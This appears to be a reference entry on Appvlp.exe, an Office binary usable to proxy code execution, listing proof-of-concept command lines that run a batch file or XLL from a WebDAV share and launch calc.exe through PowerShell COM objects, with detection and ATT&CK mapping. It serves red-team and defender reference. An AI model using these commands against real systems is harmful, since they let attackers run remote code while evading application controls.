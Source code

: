 ## Appvlp.exe

* Functions: Execute

```
AppVLP.exe \\webdav\calc.bat   

AppVLP.exe powershell.exe -c "$e=New-Object -ComObject shell.application;$e.ShellExecute('calc.exe', '', '', 'open', 1)"    

AppVLP.exe powershell.exe -c "$e=New-Object -ComObject excel.application;$e.RegisterXLL('\\webdav\xll_poc.xll')" 
```

Acknowledgements:
* fab - @0rbz_    
* Will - @moo_hax

Code sample:
*

Resources:
* https://github.com/MoooKitty/Code-Execution
* https://twitter.com/moo_hax/status/892388990686347264

Full path:
```
C:\Program Files\Microsoft Office\root\client\appvlp.exe       
C:\Program Files (x86)\Microsoft Office\root\client\appvlp.exe       
```

Notes:
Requires Office.

Detection:
Appvlp.exe spawning other process


 
MITRE ATT&CK:
* [Indirect Command Execution](https://attack.mitre.org/wiki/Technique/T1202)
